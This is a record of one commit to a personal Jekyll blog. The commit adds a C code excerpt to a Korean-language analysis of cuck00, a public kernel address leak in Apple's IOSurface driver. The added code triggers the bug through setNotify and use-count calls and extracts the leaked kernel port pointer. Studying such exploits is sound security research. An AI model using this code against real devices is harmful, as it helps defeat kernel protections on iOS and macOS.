

Before and after one commit to rls1004/rls1004.github.io, a Jekyll site: the page built from _posts/2020-12-10-cuck00.md, in a window 1280 px wide and 900 px high, scrolled down 5013 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; some web fonts are replaced; comment, search, counter and statistics services are not loaded.

Commit message:
edit post: cuck00

````diff
--- a/_posts/2020-12-10-cuck00.md
+++ b/_posts/2020-12-10-cuck00.md
@@ -139,6 +139,30 @@ bcopy(reference, replyMsg.m.msg64.notifyHdr.reference, sizeof(OSAsyncReference64
 
 IOSruface 드라이버를 선택하여 취약점을 트리거 하는 방법입니다. ([source](https://github.com/Siguza/cuck00/blob/master/src/main.c#L106))
 `IOUserClient::_sendAsyncResult64` 호출이 가능한 다른 드라이버를 선택해도 되는데 여기서는 iOS와 macOS에 모두 존재하고 대부분의 context에서 사용할 수 있는 IOSurface를 선택했습니다.
+
+```c
+    uint64_t in[3] = { 0, 0, 0 };
+    ret = IOConnectCallAsyncStructMethod(client, IOSURFACE_SET_NOTIFY, port, refs, 8, in, sizeof(in), NULL, NULL);
+    LOG("setNotify: %s", mach_error_string(ret));
+    if(ret != KERN_SUCCESS) goto out;
+
+    uint64_t id = surface.data.id;
+    ret = IOConnectCallScalarMethod(client, IOSURFACE_INCREMENT_USE_COUNT, &id, 1, NULL, NULL);
+    LOG("incrementUseCount: %s", mach_error_string(ret));
+    if(ret != KERN_SUCCESS) goto out;
+
+    ret = IOConnectCallScalarMethod(client, IOSURFACE_DECREMENT_USE_COUNT, &id, 1, NULL, NULL);
+    LOG("decrementUseCount: %s", mach_error_string(ret));
+    if(ret != KERN_SUCCESS) goto out;
+
+    msg_t msg = { { 0 } };
+    ret = mach_msg(&msg.head, MACH_RCV_MSG, 0, (mach_msg_size_t)sizeof(msg), port, MACH_MSG_TIMEOUT_NONE, MACH_PORT_NULL);
+    LOG("mach_msg: %s", mach_error_string(ret));
+    if(ret != KERN_SUCCESS) goto out;
+
+    result = msg.notify.ref[0] & ~3; // <-- leak port
+```
+
 - async 함수 중 하나를 사용하여 setNotify(external method 17)를 호출
 - incrementUseCount(external method 14)를 호출하고 decrementUseCount(external method 15)를 호출
   - 실제로 무엇을 의도하고 있는지 모르겠지만 count가 0이 되면 메시지가 userland로 다시 전송 됨
````
